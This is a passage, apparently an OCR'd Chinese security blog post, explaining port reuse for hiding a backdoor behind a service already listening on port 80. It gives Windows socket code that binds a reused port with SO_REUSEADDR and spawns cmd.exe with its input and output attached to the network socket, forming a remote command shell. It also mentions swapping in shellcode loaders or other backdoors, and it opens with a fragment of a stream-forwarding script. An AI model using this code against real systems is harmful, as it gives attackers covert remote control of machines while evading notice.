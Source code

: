             continue 
 
        print "[+] Connected to %s:%i" % (host, port) 
        streams[flag] = conn_sock 
        conn_sock2 = get_stream(flag)  
        ex_stream(host, port, flag, conn_sock, conn_sock2) 
复制代码
 

(一)：端口复用

端口复用的原理是与源端口占用程序监听同一端口，当复用端口有数据来时，我们可以判断是否是自己的数据包，如果是自己的，那么就自己处理，否则把数据包交给源端口占用程序处理。

在这里有个问题就是，如果你不处理数据包的归属问题的话，那么这个端口就会被端口复用程序占用，从而导致源端口占用程序无法工作。

外部IP：192.168.2.1=>192.168.1.1:80=>run(data)
内部IP：return(data)=>192.168.1.1:80=>192.168.2.1
代码以cmd后门为例，我们还是先创建一个TCP套接字

listenSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0); 
设置 socket 可复用 SO_REUSEADDR

BOOL val = TRUE; 
    setsockopt(listenSock, SOL_SOCKET, SO_REUSEADDR, (char*)&val, sizeof(val)); 
设置IP和复用端口号，IP和端口号视情况而定。

sockaddr_in sockaaddr; 
   sockaaddr.sin_addr.s_addr = inet_addr("192.168.1.8"); 
   sockaaddr.sin_family = AF_INET; 
   sockaaddr.sin_port = htons(80); 
设置反弹的程序，以 cmd.exe 为例，首先创建窗口特性并初始化为 CreateProcess() 创建进程做准备，当 cmd.exe 的进程创建成功后，以 socket 进行数据通信交换，这里还可以换成其他程序,比如 Shellcode 小马接收器、写入文件程序、后门等等。

STARTUPINFO si; 
 ZeroMemory(&si, sizeof(si)); 
 si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES; 
 si.hStdError = si.hStdInput = si.hStdOutput = (void*)recvSock; 
 
 char cmdLine[] = "cmd"; 
 PROCESS_INFORMATION pi; 
 ret = CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, π); 
0x05总结

在端口复用技术中，确实有许多的坑点。其实只要我们知道其中的特性，绕过也是不难的。端口复用在Linux系统中我觉得还好，但是端口复用这个技术放到Windows系统中，我觉得端口复用就好像是千斤顶，换备胎的时候可以用下，不可长时间使用
